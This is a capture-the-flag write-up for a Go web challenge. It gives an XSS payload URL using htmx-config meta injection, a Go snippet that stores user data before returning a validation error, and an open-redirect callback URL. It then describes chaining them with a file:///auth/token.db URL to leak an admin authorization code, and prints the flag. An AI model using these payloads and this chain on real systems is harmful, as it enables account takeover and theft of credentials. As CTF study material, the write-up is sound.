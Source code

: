 # Bugs

## Bug 1 - XSS on external/internal

```
http://35.200.122.11:20000/login?timeout={%22indicatorClass%22:%22%3C/style%3E%3Cimg%20src=1%20onerror=alert(1)%3E%3Cstyle%3Ess%22}%27%20x=%27&return_url=invalidscheme://11%27%20content=%27hehehe%27%20http-equiv=%27asdf%27%20name=%27htmx-config
```

## Bug 2 - Store a malicious URL before returning with an error

```go
err := s.ValidationRegistRequest(w, r)
    s.UserStore.CreateUser(
        utils.GenUserID(),
        r.Form.Get("username"),
        r.Form.Get("password"),
        r.Form.Get("url"),
        false,
    )
    if err != nil {
        errors.ReturnError(w, err, errors.Descriptions[err])
        return nil
    }
```

## Bug 3 - Invalid state check (Open Redirect)

```
/api/auth/callback?code=NJU5NWI1MJQTMZHLNC0ZNDCWLWJKM2MTNGJIYJBLMWFIZJE4&state=eyJyZWRpcmVjdCI6ICJodHRwczovL25ta2xpbG0ucmVxdWVzdC5kcmVhbWhhY2suZ2FtZXMvZXh0ZXJuYWwifQ==

```

# Exploit

We can leak the admin's authorization code, which hasn't been used yet, by using bug 2 and setting a URL to `file:///auth/token.db`. After getting a code, we can make a bot login with an admin account, and then redirect (bug 3) to the internal page that has an XSS payload (bug 1).


**Flag: `LINECTF{f133d5cb85ececf2db78d1aef9d526fd}`**
